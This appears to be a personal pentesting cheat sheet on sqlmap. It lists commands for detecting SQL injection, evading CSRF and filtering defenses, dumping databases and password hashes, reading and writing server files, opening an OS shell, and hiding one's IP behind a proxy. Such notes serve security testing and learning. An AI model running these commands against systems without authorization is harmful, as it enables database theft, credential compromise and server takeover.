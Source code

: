 
### General Notes

Automated tool to test for [[SQL Injections]].
- Gets information about the Database and system being used.

> Data is saved in `/usr/share/sqlmap/output/sqlmap.test` for each URL used. Can use `--flush-session` to reset this data.

`SQLmap` performs automatic hash decryption using dictionary methods when it stumbles upon any value that resembles a hash format.

---
### Finding Injections

To properly obtain the URL as well as all the [[HTTP]] headers and [[Cookies]], we can copy the request from the network tab as [[cURL]]. It has the exact same format as `SQLmap`.

* To test a query parameter (`GET` [[HTTP]] parameter) :
```bash
sqlmap -u "/url?param=1&param2=2" --batch
sqlmap -u "/url?param=1&param2=2" -p param2
```
> The parameter we want to test should be placed in the URL, `param` in this case.
> `--batch` means don't ask for any user input and continue with default values.
> `-p` specifies which parameter we want to test.

* To test for `POST` requests:
```bash
sqlmap -u "/url" --data "param1=a"
sqlmap -u "/url" --data "data1=a*&data2=b"
sqlmap -u "/url" --data "data1=a&data2=b" -p data1
```
> Pass the parameters in the body using `--data`.
> If we know which parameter exactly we want to test, we can use the `*`, or the `-p` flag. 

* To run against a request saved in a text file:
```bash
sqlmap -r req.txt
```
> The `-r` flag specifies the path to the request file. We can use `*` inside the file to specify which parameter we want to test.
> This request file can be obtained from [[Burp Suite]] proxy.

#### Useful Flags

* To add a prefix and/or suffix to enclose all vectors being sent:
```bash
sqlmap -u "/url" --suffix="-- -" --prefix="' "
```
> This adds `' ` before all payloads and a `-- -` after all payloads.

* Send from random agents, instead of the sqlmap user agent:
```bash
--random-agent
```

* Imitate sending from a mobile phone:
```bash
--mobile
```

* Send using a specific [[HTTP#HTTP Verbs]]:
```bash
--method <VERB>
```

* Add an [[HTTP#HTTP Headers]]:
```bash
-H '<HEADER:VALUE>'
-A
--cookie 'name=value'
```
> Normal headers, user agent header, or [[Cookies]].
> They can all be specified using `-H` as well.

Adding the `*` in any of the above headers also tests for [[SQL Injections]] in them.

* Setting `level` and `risk` flags:
```bash
--level=5
--risk=3
```
> These are the maximum values, with both defaults at 1.
> Increasing these values tests more payloads, is slower, and can damage the database.

* Specify the number of columns in the table for `UNION` injection:
```bash
--union-cols=<num>
```

* Instead of `NULL` and random integer while testing for columns: 
```bash
--union-char='a'
```

* Specify the `FROM` table while doing `UNION` injection
```bash
--union-from=<table-name>
```

---

### Bypassing Web Application Protections

##### Bypassing Anti-[[CSRF]]  

> To bypass this defense that makes it hard for automated tools to attack websites, the `--csrf-token` flag is passed. 

`SQLmap` tries to parse the target response and obtain a new token so that it can be used in the next request. Even if `--csrf-token` flag isn't present but one of the parameters or data being passed has a CSRF token, `SQLmap` will prompt the user to update this token for the remaining requests.

##### Bypassing Unique Value Requirements

- Some parameters need unique values in parameters. To achieve this so that each request sent has a different value for the parameter, the `--randomize` flag is used with the name of the parameter that should be randomized.
```bash
sqlmap -u "/url?param1=13" --randomize=param1
```

##### Calculated Parameters

- Some parameters that get passed are a result of some modification or calculation. This can be achieved by using the `--eval` flag and writing python code that calculates this parameter.
```bash
sqlmap -u "/url?p1=1&p2=2" --eval="p2=p1+1" 
```

Here the value of p2 is replaced by the calculation of p1 + 1. This can be used to hash parameters as well.   

#### Using Tamper Scripts

These can be used to tamper with the requests to bypass some defense mechanisms. These can be listed using the `--list-tampers` flag.

```bash
--tamper=<name1>,<name2>
```

---
### Post Exploitation

* Database enumeration:
```bash
--banner # gets the banner of the database.
--hostname # the hostname of the target.
--dbs # gets the databases.
--schema #structure of all tables in the databases.

--current-user # gets the current user.
--users # gets the current user in the db.
--is-dba # check if the current user is the database admin.
--passwords # prints the password hashes for the database users.

--dump -D <db-name> #prints everything there is in the database.
--dump-all #prints everything from all databases.
```

* Table enumeration after choosing a database:
```bash
-D <db-name> --tables #lists the tables in the database db-name.

-D <db-name> -T <table-name> --dump #prints everything in that table.
-D <db-name> -T <table-name> --columns #lists the columns in the table.

-D <db-name> -T <table-name> -C column-name,column-name --dump #gets the info of the columns
-D <db-name> -T <table-name> -C column-name,column-name --dump --start=2 --stop=4 #gets only columns in these rows.
```

* Searching for data:
```bash
-D <db-name> -T <table-name> -C column-name,column-name --dump --where="where clause without WHERE keyword" #get the rows only that meet certain conditions.

--search -T user #searches for tables containing the user keyword.
--search -C pass #searches for columns containing the pass keyword.
```
> For the `WHERE` clause example: `--where="username like '%mins%'"`

* Reading from files:
```bash
--file-read "/path/to/file"
```
> The file is then saved to a local file on the machine.

* Writing to files:
```bash
--file-write "/path/to/file/to/send" --file-dest "/where/to/save"
```

* To get a reverse shell:
```bash
--os-shell
```


---

### Test for Errors

* To display any database errors from the responses:
```bash
--parse-errors
```

* To store all the output to a file:
```bash
-t /path/to/file
```

* To be verbose and print everything:
```bash
-v 6
-v 3
```
> For verbosity of 3, it shows the payload that can be used in the browser.

* Use a proxy to redirect traffic:
```bash
--proxy "http://127.0.0.1:80"
```
> This uses [[Burp Suite]] as proxy.
> Can be used to conceal [[IP]] address. This can bypass some blocks.

---

